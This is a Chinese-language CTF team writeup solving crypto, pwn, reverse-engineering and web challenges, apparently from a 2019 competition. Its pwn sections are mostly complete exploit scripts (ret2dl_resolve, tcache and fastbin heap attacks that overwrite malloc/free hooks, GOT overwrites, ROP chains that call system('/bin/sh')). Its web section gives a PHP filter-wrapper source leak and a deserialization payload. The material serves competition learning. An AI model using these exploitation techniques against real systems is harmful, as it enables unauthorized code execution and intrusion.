


# W4terdrop writeup

## Crypto

### Warmup

aes是64位为一组，CTR是流密码，因此可以暴力破解

```
from pwn import *

debug=1

#context.log_level='debug'

p=remote('',12345)
charset ='{}_-'+ string.ascii_letters + string.digits + string.punctuation
pad = lambda s: s + (16 - len(s) % 16) * chr(16 - len(s) % 16)

def ru(x):
    return p.recvuntil(x)

def se(x):
    p.send(x)

def sl(x):
    p.sendline(x)


def cr(idx):
    ru('plaintext>')
    s = ''
    for q in range(8):
        for i in charset:
            sl('a'*8+i*idx)
            ru('result>')
            data = ru('\n')[:-1]
            t = data[idx*2+q*2:idx*2+2+q*2]
            ru('plaintext>')
            sl('a'*8)
            ru('result>')
            data = ru('\n')[:-1]
            w = data[idx*2+q*2:idx*2+2+q*2]
            if t == w:
                s += i
                print(i)
                break
    return s

flag = ''
for i in range(40,64,8):
    flag += cr(i)
    print(flag)
print(flag)
p.interactive()
```

### Asymmetric

首先，查看加密代码可以知道e的范围是1\~10,因此可以通过枚举获取e的值。其次，根据欧拉定理有：
$$
\forall\ x \in N_{p^{s}},\ x^{\phi\left( p^{s} \right)} = 1\ mod(p^{s})
$$
因此，我们只需要找到d使得：
$$
\text{ed} = 1\ mod\left( \phi(x) \right)
$$
直接求逆就可以得到d了，最后用d解密：
$$
\text{enc}^{d} = plain^{\text{de}} = plain\ mod\left( p^{s} \right)
$$
解密可以得到flag为：flag{ec33f669d2d659e2bc27dbffdfeb0f38}

```python
from problem import pubkey,encrypt 
from gmpy2 import *
import base64
import libnum

def root(n,i):
	l,r = 2,n
	while l<=r:
		mid = (l+r)/2
		if mid**i == n:
			return mid
		if mid**i>n:
			r = mid-1
		else:
			l = mid+1
	return -1

e,n = pubkey
for i in range(3,11):
	if root(n,i)!=-1 and libnum. prime_test(root(n,i)):
		s = i
		p = root(n,i)
		break

print s,p
d = invert(e,p**(s-1)*(p-1))
assert(p**s==n)
enc =encrypt
enc = base64.b64decode(enc)
enc = libnum.s2n(enc)
plain = pow(enc,d,p**s)
print libnum.n2s(plain)

```

### puzzles

Question 0:

直接使用numpy即可求解：

```python
import  numpy as np

A = [[13627,26183,35897,48119,],
     [23027,38459,40351,19961],
     [36013,45589,17029,27823],
     [43189,12269,21587,33721]]
y = [347561292,361760202,397301762,350830412]

A = np.mat(A)
y = np.mat(np.array(y).reshape([-1,1]))
print np.dot(np.linalg.inv(A),y)
```


Question 1:

一开始猜测是等差数列结果发现并不是。然后猜测是是等间距地取了4个素数，编程发现，26364809到26366621共有112个素数，给的这三个数分别是第0、74、111个数，因此可以推断出缺失的是第37个数。

```python
import libnum

num_list = []
for i in range(26364809,26366622):
    if libnum.prime_test(i):
        num_list.append(i)

print num_list.index(26364809)
print num_list.index(26366033)
print num_list.index(26366621)
print num_list[37]
```


Question 2：

直接计算即可

Question 3:

查公式套公式



Question 4:



拼接得flag

flag{01924dd7-1e14-48d0-9d80-fa6bed9c7a00}


## Pwn

### baby_pwn

简单栈溢出，直接dl_resolve解

```
from roputils import *
import pwn as pwn

r = pwn.remote('da61f2425ce71e72c1ef02104c3bfb69.kr-lab.com', 33865)

fpath = sys.argv[1]
offset = int(sys.argv[2])

rop = ROP(fpath)
addr_bss = rop.section('.bss')

buf = rop.retfill(offset)
buf += rop.call('read', 0, addr_bss, 100)
buf += rop.dl_resolve_call(addr_bss+20, addr_bss)

p = Proc(rop.fpath)
p.write(p32(len(buf)) + buf)
r.send(p32(len(buf)) + buf)
print "[+] read: %r" % p.read(len(buf))

buf = rop.string('/bin/sh')
buf += rop.fill(20, buf)
buf += rop.dl_resolve_data(addr_bss+20, 'system')
buf += rop.fill(100, buf)

p.write(buf)
r.send(buf)
r.interactive()
p.interact(0)
```


### bms

远程测试，发现有tcache机制

于是malloc到stdout结构体，去改头，然后leak出libc地址，找了下，发现是libc-2.26的

leak那一步可以看angleboy的slide

https://www.slideshare.net/AngelBoy1/play-with-file-structure-yet-another-binary-exploit-technique

然后再利用tcache的漏洞，写__free_hook为system，free掉之后直接get shell

下面是payload

```
from pwn import *

debug=0

context.log_level='debug'

if debug:
    p=process('./pwn')
    #p=process('',env={'LD_PRELOAD':'./libc.so'})
    gdb.attach(p)
    e=ELF('/lib/x86_64-linux-gnu/libc-2.27.so')
else:
    p=remote('90b826377a05d5e9508314e76f2f1e4e.kr-lab.com', 40001)
    e=ELF('./libc6_2.26-0ubuntu2_amd64.so')

def ru(x):
    return p.recvuntil(x)

def se(x):
    p.send(x)

def sl(x):
    p.sendline(x)

ru('username:')
se('admin\n')
ru('password:')
se('frame\n')
ru('>')

def add(name,sz,content):
    sl('1')
    ru('name')
    se(name)
    ru('size:')
    sl(str(sz))
    ru('description:')
    se(content)
    return ru('>')

def delete(idx):
    sl('2')
    ru('index:')
    sl(str(idx))
    ru('>')

sz = 0x88
add('0',sz,'123')

for i in range(4):
    delete(0)

add('1',sz,p64(0x602020))
add('2',sz,'123')
if debug:
    add('3',sz,'\x60')
    data = add('4',sz,p64(0xfbad1800)+p64(0)*3+'\x80')
    libc = u64(data[:8])
    base = libc - 0x3EC780
else:
    add('3',sz,'\x20')
    data = add('4',sz,p64(0xfbad1800)+p64(0)*3+'\x40')
    libc = u64(data[:8]) 
    base = libc - 0x3db720 - 0x20

add('5',0x68,'/bin/sh')
delete(5)
delete(5)
delete(5)

free_hook = base+e.symbols['__free_hook']
system = base+e.symbols['system']

add('6',0x68,p64(free_hook))
add('7',0x68,'/bin/sh\x00')
add('8',0x68,p64(system))

sl('2')
ru('index')
sl('7')

print(hex(base))

p.interactive()

```

### daily

下标溢出，直接任意地址free，之后直接fastbin attack就行

payload如下

```
from pwn import *

debug = 0
if debug:
    p = process('./pwn2')
    gdb.attach(p)
else:
    p = remote('85c3e0fcae5e972af313488de60e8a5a.kr-lab.com', 58512)

context.log_level='debug'

e = ELF('/lib/x86_64-linux-gnu/libc-2.23.so')


def add(len, context):
	p.recvuntil('choice:')
	p.sendline('2')
	p.recvuntil(':')
	p.sendline(str(len))
	p.recvuntil('\n')
	p.send(context)

def show():
	p.recvuntil('choice:')
	p.sendline('1')

def edit(index, context):
	p.recvuntil('choice:')
	p.sendline('3')
	p.recvuntil(':')
	p.sendline(str(index))
	p.recvuntil('\n')
	p.send(context)

def delete(index):
	p.recvuntil('choice:')
	p.sendline('4')
	p.recvuntil(':')
	p.sendline(str(index))


#gdb.attach(p, 'b* 0x400CFD')
add(0x80, 'a'*8) #0
add(0x80, 'a'*8) #1
add(0x80, 'a'*8) #2
add(0x80, 'a'*8) #3
add(0x80, 'a'*8) #4
delete(3)
delete(1)
add(0x80, 'a'*8) #1
show()
p.recvuntil('1 : aaaaaaaa')
heap_base = u64(p.recvuntil('2', drop=True).ljust(8, '\x00')) - 0x90

for i in range(5):
	delete(i)

add(0x200,'a'*8)
add(0x200,'a'*8)
delete(0)
add(0x200,'a'*8)
show()
p.recvuntil('0 : aaaaaaaa')
libc_base = u64(p.recvuntil('1', drop=True).ljust(8, '\x00')) - 0x3C4B20 - 88
delete(0)
delete(1)

#fastbin attack
add(0x68,'a')
add(0x68,p64(heap_base+0x10)*2)
add(0x68,'c')

fake_addr = heap_base+0x80
delete((fake_addr-0x602068+0x10)/0x10)

malloc_hook = libc_base + e.symbols['__malloc_hook']
realloc = libc_base + 0x846C0 

edit(0,p64(malloc_hook-0x23))
add(0x68,'a')
add(0x68,'a'*11+p64(libc_base+0x4526a)+p64(realloc))

p.recvuntil('Your choice:')
p.sendline('2')
p.recvuntil('Please enter the length of daily:')
p.sendline('1')

print hex(libc_base)
print hex(heap_base)


p.interactive()

```


### Double


看了恒哥逆的ida，加上自己理解了一些，程序就变得很简洁明了了。

大体是一个单向链表，当加入数据与链表头相同时，会偷懒不新建，直接沿用链表头malloc的数据，但是重新赋予序号。不妨设有这样两个相同，序号分别为AB。这就导致删除序号A后，对B修改可以直接修改堆，也可以再删除，存在uaf

泄露地址就用删除掉的A，打印B即可。

利用fastbin attack可以很快速的getshell。

然后直接把malloc_hook改成one_gadget就可以了。

如果想用realloc_hook怕strncpy截断，就用edit函数里面的memcpy来解决。

```python
from pwn import *

debug = 0
if debug:
	p = process('./double')
else:
	p = remote('e095ff54e419a6e01532dee4ba86fa9c.kr-lab.com',40002)

e = ELF('/lib/x86_64-linux-gnu/libc-2.23.so')
context(log_level = 'debug')

def add(msg):
	p.recvuntil('>')
	p.sendline('1')
	p.recvuntil('data:')
	p.send(msg)

def show(idx):
	p.recvuntil('>')
	p.sendline('2')
	p.recvuntil('index: ')
	p.sendline(str(idx))

def edit(idx, msg):
	p.recvuntil('>')
	p.sendline('3')
	p.recvuntil('index:')
	p.sendline(str(idx))
	sleep(0.01)
	p.send(msg)

def delete(idx):
	p.recvuntil('>')
	p.sendline('4')
	p.recvuntil('index:')
	p.sendline(str(idx))

add('a'*0x200+'\n')#0
add('a'*0x200+'\n')#1
delete(0)
show(1)
#p.recvuntil('')
libc_base = u64(p.recv(6).ljust(8, '\x00')) - 0x3c4b78
print hex(libc_base)

one = libc_base + 0x4526a
malloc_hook = libc_base + e.symbols['__malloc_hook']
realloc = libc_base + 0x846C0 

notelen = 0x67

#gdb.attach(p, 'b* 0x401288\nb* 0x40144E')

add('b'*notelen+'\n') #2
add('b'*notelen+'\n') #3
add('d'*notelen+'\n') #4
add('c'*notelen+'\n') #5
delete(2)
edit(3, p64(malloc_hook-0x23)+'\x00'+'\n')
print hex(malloc_hook)

#gdb.attach(p, 'b* 0x401288\nb* 0x40144E')
add('b'*notelen+'\n') #6
print hex(realloc)
print hex(one)
add(('e'*19+p64(one))+'\x00'*(notelen-11-16)+'\n') #7
#edit(7, 'e'*11+p64(one)+p64(one)+'\x00'*10+'\n')

#gdb.attach(p, 'b* 0x401288\nb* 0x40144E')

p.recvuntil('>')
p.sendline('1')

p.interactive()

```

### Virtual

实现了个简单vm

save和load有下标溢出，因此可以改stack的指针指向bss段，然后去读got表中的函数地址，加个偏移，变成one_gadget，再写回去

下面是payload

```python
from pwn import *

debug=0

context.log_level='debug'

if debug:
    p=process('./pwn')
    #p=process('',env={'LD_PRELOAD':'./libc.so'})
    gdb.attach(p)
else:
    p=remote('a569f7135ca8ce99c68ccedd6f3a83fd.kr-lab.com', 40003)

def ru(x):
    return p.recvuntil(x)

def se(x):
    p.send(x)

def sl(x):
    p.sendline(x)

bss = 0x4040D0

ru('Your program name:')
sl('Ch4r1l3')
ru('Your instruction:')
sl('push push save push push load push add push save')
ru('data:')

data = [bss,-3,-22,-22,(0xf1147-0x6F690),-22]

s = ''
for i in data:
    s += str(i)+' '

sl(s)

p.interactive()

```

### your_pwn

有一个栈上的任意地址读写。

可以把当前的ebp+8读出来，就可以知道当前的程序的基址

把ebp+8的地方改成rop的地址，然后跳转call puts打印puts的got地址，就可以得到libc的基址，从而算出sys、binsh的基址。

然后再重复一遍以上操作，把ebp+8改成rop并跳转system('/bin/sh')就可以getsell了

```python
from pwn import *

debug = 0
if debug:
	p = process('./pwn1')
else:
	p = remote('', 57856)

context(log_level = 'debug')

def padd(times):
	for i in range(times):
		p.recvuntil('index')
		p.sendline('1')
		p.recvuntil('(hex)')
		p.sendline('1')

def Modify(pos, data):
	for i in range(pos,pos+8):
		p.recvuntil('index')
		p.sendline(str(i))
		p.recvuntil('(hex) ')
		p.sendline(str(data&0xff))
		data /= 0x100

p.recvuntil('name:')
p.sendline('1')

program_base = 0
rt = 1;
ti = 0
for i in range(344,352):
	p.recvuntil('index')
	p.sendline(str(i))
	p.recvuntil('(hex) ')
	tmp = int((p.recvuntil('\n', drop = True))[-2:], base = 16)
	print tmp
	program_base = (program_base+tmp*rt)
	rt = rt * 0x100
	p.sendline(str(tmp))
	ti +=1

program_base -= 0xb11

print(hex(program_base))

put_got = program_base + 0x202020
call_put = 0xC3E+program_base
#put_got = 0x2020A0
rdi = program_base + 0xd03
print hex((rdi&0xff00)/0x100)

p.recvuntil('index')
p.sendline('344')
p.recvuntil('(hex)')
p.sendline(str(3))

p.recvuntil('index')
p.sendline('345')
p.recvuntil('(hex)')
p.sendline(str((rdi&0xff00)/0x100))
ti+=2

Modify(352, put_got)
ti += 8

print(hex(put_got))

Modify(360, call_put)
ti += 8

Modify(632, program_base+0xb11) #0x120 offset
ti += 8

if debug:
	debugmsg = 'b* '+hex(program_base+0xC5C)
	gdb.attach(p, debugmsg)

padd(41-ti)
ti = 0

p.recvuntil('? \n')
sleep(0.2)
p.sendline('yes')
put_addr = u64(p.recv(6).ljust(8, '\x00'))
print hex(put_addr)
libc_base = put_addr - 0x06f690
print hex(libc_base)
sys_addr = libc_base + 0x045390
bin_sh = libc_base + 0x18cd57

p.sendline('yes\x00')

Modify(344, rdi)
Modify(352, bin_sh)
Modify(360, sys_addr)
ti = 24
padd(41 - ti)

p.recvuntil('? \n')
p.sendline('yes\x00')

p.interactive()
```

## Reverse

### bbvvmm

用qira神器，跟着输入流走
然后走到0x4056ff，发现有一个xor，对应xor的是x
再跟踪了下，然后发现输入的密码与下面的字符串异或了一下
xyz{|}

应该就是密码了

用户名的话，首先是sms4加密，然后再用魔改的base64加密了

sms4的我是用c语言解的，这里就不放了，下面是解base64的

```
def decode(a1):
    b = 'IJLMNOPKABDEFGHCQRTUVWXSYZbcdefa45789+/6ghjklmnioprstuvqwxz0123y'
    d = []
    for i in range(0,len(a1),4):
        c = []
        for q in range(4):
            if a1[i+q] not in b:
                c.append(0)
            else:
                c.append(b.index(a1[i+q]))
        t1 = (c[0]<<2) | (c[1]>>4)
        t2 = ((c[1]&0xf)<<4) | (c[2]>>2)
        t3 = ((c[2]&0x3)<<6) | c[3]
        d += [t1,t2,t3]
    return d


t1 = 'RVYtG85NQ9OPHU4uQ8AuFM+MHVVrFMJMR8FuF8WJQ8Y='
#t1 = 'G9YuQtFtFVQrRM4uQ8AuR8IpGMNvFM9tG8FqQ8QwR9Q='
t2 = decode(t1)
s = ''
for i in range(32):
    s+=chr(t2[i])
t3 = []
for i in range(0,len(s),2):
    t3.append(int(s[i:i+2],16))
keys=[0xDA,0x98,0xF1,0xDA,0x31,0x2A,0xB7,0x53,0xA5,0x70,0x3A,0xB,0xFD,0x29,0xD,0xD6]
print(t3)

t4 = '6261647265723132'
s = ''
for i in range(0,len(t4),2):
    s += chr(int(t4[i:i+2],16))
print(s)
```

### easyGo

直接搜字符串，然后找到判断的函数，有两个分支，在分支的那里下个断点，地址是0x495318
rsi就存着指向flag的指针


## Web

### JustSoso

http://de4acedff28d48cea2954306dabe3d3276d73be89c7c4e2d.changame.ichunqiu.com/index.php?file=php://filter/convert.base64-encode/resource=hint.php

伪协议拿到源码

Index.php里面得知hint.php

继续拿hint源码

发现构成反序列化的过程中有三个问题：

1.wakeup里面的属性清空：使用不正确的序列化对象可以避免wakeup的执行

2.getFlag函数里面的===，使用指针R，让token和token_flag始终相等

3.index里面的parse_url后的正则，使用///绕过

最终payload：

```
http://e5095d0258044ac28d26444770f6c4a04f5be24e59c54a3e.changame.ichunqiu.com///index.php?file=hint.php\&payload=O:6:%22Handle%22:2:{s:14:%22%00Handle%00handle%22;O:4:%22Flag%22:3:{s:4:%22file%22;s:8:%22flag.php%22;s:5:%22token%22;s:32:%2251311013e51adebc3c34d2cc591fefee%22;s:10:%22token_flag%22;R:4;}}
```

